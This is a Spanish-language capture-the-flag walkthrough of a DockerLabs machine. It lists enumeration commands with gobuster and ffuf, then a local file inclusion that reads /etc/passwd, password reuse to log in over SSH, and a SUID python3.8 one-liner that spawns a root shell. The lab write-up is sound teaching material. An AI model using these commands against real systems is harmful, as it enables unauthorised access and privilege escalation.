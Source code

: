 nmap:  22,80

![image](https://github.com/user-attachments/assets/eaad09c8-5a05-446f-96cb-e8c76e63dd4f)

en la pagina como en el nmap, vemos que es apache2, en el código fuente no hay nada, hacemos un gobuster

     gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,py,txt -t 64


y nos da in index.php

![image](https://github.com/user-attachments/assets/31191b22-876a-44d3-8876-3e596b67f795)

![image](https://github.com/user-attachments/assets/6ff70d6f-697d-4666-90f8-355f6bbe8d46)

buscamos eso y da solo en la pagina un "balu"

![image](https://github.com/user-attachments/assets/fed9b04c-c1b9-48ad-a9b4-bf5ad959017d)

probé con hydra pero no obtuve nada. Como la carpeta o directorio que nos dio, podemos probar con ffuf

     ffuf -u http://172.17.0.2/index.php?FUZZ=/etc/passwd -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 

y nos dio un: page

![image](https://github.com/user-attachments/assets/030a13f1-9264-48ee-a294-ac3b02cebad3)

y obtenemos

![[dockerlabs/facil/patriaquerida/etc.png]]

nos dan dos usuarios: pinguino y mario. probamos a los usuarios con la contraseña "balu"

entramos

![[dockerlabs/facil/patriaquerida/conexion.png]]

y escalamos a mario muy facil

![[dockerlabs/facil/patriaquerida/conexion2.png]]

utilizamos el comando

     find / -perm -4000 -ls 2>/dev/null

y nos da un binario importante 

![[python1.png]]

la buscamos en https://gtfobins.github.io/gtfobins/python/#sudo

![[python2.png]]

modificamos el python a python3.8 como el binario y lanzamos

     python3.8 -c 'import os; os.execl("/bin/sh", "sh", "-p")'

![[dockerlabs/facil/patriaquerida/root.png]]

somos root!
